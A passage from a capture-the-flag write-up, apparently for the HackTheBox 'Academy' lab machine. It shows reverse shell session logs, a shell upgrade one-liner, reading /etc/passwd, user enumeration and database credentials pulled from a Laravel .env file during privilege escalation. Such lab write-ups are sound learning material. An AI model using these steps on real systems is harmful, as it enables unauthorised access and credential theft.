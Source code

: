 ```
[*] Command shell session 3 opened (10.10.14.115:4444 -> 10.10.10.215:44738) at 2021-02-02 19:57:43 +0100
[*] Command shell session 4 opened (10.10.14.115:4444 -> 10.10.10.215:44740) at 2021-02-02 19:57:44 +0100

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Privilege Escalation of Machine : from www-data to cry0l1t3

First let's get a [full TTY](https://book.hacktricks.xyz/shells/shells/full-ttys).

```
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
(inside the nc session) CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```

There are plenty users we could target:

```
www-data@academy:/var/www/html/htb-academy-dev-01/public$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
...
egre55:x:1000:1000:egre55:/home/egre55:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mrb3n:x:1001:1001::/home/mrb3n:/bin/sh
cry0l1t3:x:1002:1002::/home/cry0l1t3:/bin/sh
mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false
21y4d:x:1003:1003::/home/21y4d:/bin/sh
ch4p:x:1004:1004::/home/ch4p:/bin/sh
g0blin:x:1005:1005::/home/g0blin:/bin/sh
```

Then I ran a recursive list in the home directories: `ls -lhAR /home`.

- 21y4d: empty
- ch4p: empty
- cry0l1t3: the user flag is there, and stuff about lxd (useful for EoP)
    - `/home/cry0l1t3/.mysql_history` -> we don't have the permission
- egre55: empty
- g0blin: empty
- mrb3n: dirty stuff
    - `/home/mrb3n/.config/composer/.htaccess` -> deny from all
    - `/home/mrb3n/.local/share/composer/.htaccess` -> deny from all

Connecting to the DB fails with mysql creds found in
`/var/www/html/htb-academy-dev-01/.env` (same as the Laravel):

```
DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=homestead
DB_USERNAME=homestead
DB_PASSWORD=secret
```
